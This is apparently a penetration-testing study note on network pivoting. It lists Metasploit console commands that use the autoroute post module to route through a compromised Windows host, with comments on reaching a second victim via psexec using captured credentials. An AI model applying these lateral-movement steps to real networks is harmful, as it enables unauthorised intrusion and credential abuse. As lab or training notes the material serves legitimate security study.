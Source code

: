 # e - Pivoting

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# View the Metapreter Routing Table.
msf> route print # at 1st it is empty.

# ------------------------------------ Scenerio 1
# assuming we successfully exploited victim 1, and want to be able to exploit victim 2 through victim 1, we must add victim 2 ip subnet to Meterpreter 1st. We will gain access to victim 2 using the "psexec" module because we have creds.
# add routes using the autoroute module
msf> use post/windows/manage/autoroute
msf> options
msf> set SESSION <session_number>
msf> set SUBNET $ip_subnet
msf> run
msf> route print # we should see the added route now.
# now we can directly exploit victim 2 from our Kali machine.

# ------------------------------------ Scenerio 2
# But what if we want to exploit victim 2 through victim 1 and not through our kali? we can go back to the "auto route" module and add the victim 1 subnet to the routing table, then in "psexec" module, we can change the LHOST option to victim 1 IP address, then run. Use wireshark to verify the traffice flows from victim 1 to victim 2.
```
{% endcode %}

